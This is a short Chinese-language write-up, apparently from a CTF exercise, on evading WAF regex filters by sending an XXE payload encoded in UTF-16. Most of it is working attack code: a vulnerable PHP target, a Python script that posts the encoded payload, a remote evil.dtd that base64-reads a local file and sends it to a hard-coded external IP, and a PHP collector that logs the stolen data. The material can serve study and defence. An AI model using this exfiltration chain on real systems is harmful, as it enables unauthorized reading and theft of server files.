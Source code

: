 # 介绍

一个xml文档不仅可以用UTF-8编码，也可以用UTF-16(两个变体 - BE和LE)、UTF-32(四个变体 - BE、LE、2143、3412)和EBCDIC编码。
在这种编码的帮助下，使用正则表达式可以很容易地绕过WAF，因为在这种类型的WAF中，正则表达式通常仅配置为单字符集。
外来编码也可用于绕过成熟的WAF，因为它们并不总是能够处理上面列出的所有编码。例如，libxml2解析器只支持一种类型的utf-32 - utf-32BE，特别是不支持BOM。

# Exploit



我们来看下面这个例子

```
<?php

error_reporting(0);
libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');
if(preg_match('/<\?xml version="1\.0"|http/i', $xmlfile)){
    die('error');
}
if(isset($xmlfile)){
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
}
highlight_file(__FILE__);    
```

在这里他把我们能用的过滤了标头`<?xml?>`毕竟是可选项，所以可以不用管，至于过滤了但是我们可以通过使用其他编码进行绕过



下面是需要运行的python的内容

```python
import requests

url = 'http://url/'
payload = """<!DOCTYPE convert [ 
<!ENTITY % remote SYSTEM "http://yourVPS/evil.dtd">
%remote;%int;%send;
]>
"""
payload = payload.encode('utf-16')
requests.post(url, data=payload)

```

index.php

```php
<?php 
	$cookie = $_GET['q'];
	$myFile = "cookie.txt";
	file_put_contents($myFile, $cookie, FILE_APPEND);
?>
```

evil.dtd

```dtd
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///flag">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://42.192.137.212/index.php?q=%file;'>">
```

